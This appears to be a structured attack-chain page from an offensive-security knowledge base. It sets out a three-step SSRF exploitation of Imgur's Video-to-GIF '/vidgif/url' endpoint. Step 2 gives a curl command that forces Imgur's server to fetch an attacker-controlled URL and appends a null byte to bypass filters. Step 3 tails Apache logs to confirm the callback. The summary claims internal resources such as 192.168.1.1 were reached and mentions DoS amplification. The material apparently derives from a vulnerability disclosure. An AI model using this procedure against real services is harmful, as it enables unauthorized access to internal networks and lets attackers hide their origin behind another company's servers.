

# SSRF Exploitation in Imgur Video to GIF Endpoint for Arbitrary Internal and External Requests

Multi-stage attack chain demonstrating exploitation of SSRF in Imgur's Video to GIF functionality to proxy requests through Imgur's servers, access internal networks, and perform reconnaissance on third-party or internal resources.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Apache-Web-Server]]
- curl (for sending requests)

### Target Environment

- Imgur's web application (public-facing)
- Required services/ports: HTTP/HTTPS on port 80/443
- Network access requirements: Internet access to Imgur and a controllable server for logging

### Initial Access Requirements

- No credentials required (public endpoint)
- Attacker must control an external server to monitor incoming requests
- Prior access needed: None, but ability to host a test server

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Endpoint
procedure: [[procedures/Identify-Imgur-VideoToGIF-SSRF-Endpoint]]

**Objective**: Examine the /vidgif/url endpoint to confirm the 'url' parameter lacks validation, allowing arbitrary external URLs.

**Instructions**: Review Imgur's Video to GIF API documentation or test the endpoint directly to identify the lack of URL sanitization. Use browser developer tools or a proxy like Burp Suite to inspect requests.

**Expected Output**: Confirmation that the endpoint accepts and processes arbitrary URLs without verification.

**Success Indicators**:
- Endpoint responds without rejecting external URLs
- No IP or domain whitelisting observed

### Step 2: Craft and Trigger SSRF Request
procedure: [[procedures/Craft-and-Trigger-Imgur-SSRF-Request]]

**Objective**: Send a crafted GET request to the vulnerable endpoint, forcing Imgur's server to fetch a controlled external URL.

**Instructions**: Use [[commands/curl-imgur-ssrf-trigger]] to send the request:

```bash
curl "https://i.imgur.com/vidgif/url?url=https://crowdshield.com/.testing/xss.html%00"
```

This includes a null byte (%00) to potentially bypass filters.

**Expected Output**: Imgur server initiates requests to the specified URL, observable on the attacker's server.

**Success Indicators**:
- No error from Imgur indicating invalid URL
- Incoming requests appear in attacker's logs

### Step 3: Verify Exploitation via Server Logs
procedure: [[procedures/Verify-SSRF-Exploitation-via-Server-Logs]]

**Objective**: Monitor the attacker's server logs to confirm Imgur's IP addresses are making requests, validating SSRF success.

**Instructions**: Tail the Apache access logs using standard log monitoring:

```bash
tail -f /var/log/apache2/crowdshield_access.log
```

Look for requests from Imgur IPs like 54.145.111.81 or 54.196.2.255 to paths such as /.testing/xss.html.

**Expected Output**: Log entries showing HEAD/GET requests from Imgur's IPs to attacker-controlled paths.

**Success Indicators**:
- Multiple requests from Imgur IPs
- Requests match the crafted URL paths (e.g., xss.html, rfi_vuln.php)

## Attack Chain Summary

### Key Achievements

1. Confirmed SSRF in public-facing Imgur endpoint without authentication
2. Proxied requests through Imgur to obscure attacker origin and access internal resources like 192.168.1.1
3. Demonstrated potential for DoS/DDoS amplification and backend exploitation (e.g., Ruby apps)

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
